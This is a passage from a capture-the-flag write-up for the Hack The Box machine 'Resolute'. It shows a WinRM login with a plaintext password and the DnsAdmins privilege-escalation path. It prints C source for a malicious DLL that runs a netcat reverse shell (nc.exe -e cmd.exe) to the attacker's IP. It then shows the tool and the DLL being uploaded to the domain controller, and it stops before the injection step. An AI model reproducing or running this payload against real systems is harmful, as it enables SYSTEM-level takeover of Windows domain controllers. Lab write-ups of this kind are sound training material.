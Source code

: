This means that we are now able to log in as Ryan:

```
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169
Evil-WinRM shell v2.0
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents>
```

Ryan is part of DnsAdmin Group, as DnsAdmin we can inject a DLL into the DNS service running on the Domain Controller as SYSTEM. I have crafted a simple DLL which fullfills all requirements for the dns.exe and also executes netcat to give me access to DC as SYSTEM.


```c#
#include "stdafx.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		system("c:\\windows\\system32\\spool\\drivers\\color\\nc.exe -e cmd.exe 10.10.14.164 9111");
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```
To exploit this we first have to get the netcat.exd and our mallicious dll onto the system, for this used to upload function of evil-winrm:

```
upload /root/htb/resolute/nc.exe
Info: Uploading /root/htb/resolute/nc.exe to C:\windows\system32\spool\drivers\color\nc.exe

Data: 53248 bytes of 53248 bytes copied

Info: Upload successful!
```
and
```
upload /root/htb/resolute/exploit.dll
Info: Uploading /root/htb/resolute/pwn.dll to C:\windows\system32\spool\drivers\color\exploit.dll

Data: 305604 bytes of 305604 bytes copied

Info: Upload successful!
```
Now we are only 3 Commands away from our shell as SYSTEM, first inject the dll into the DNS-Service
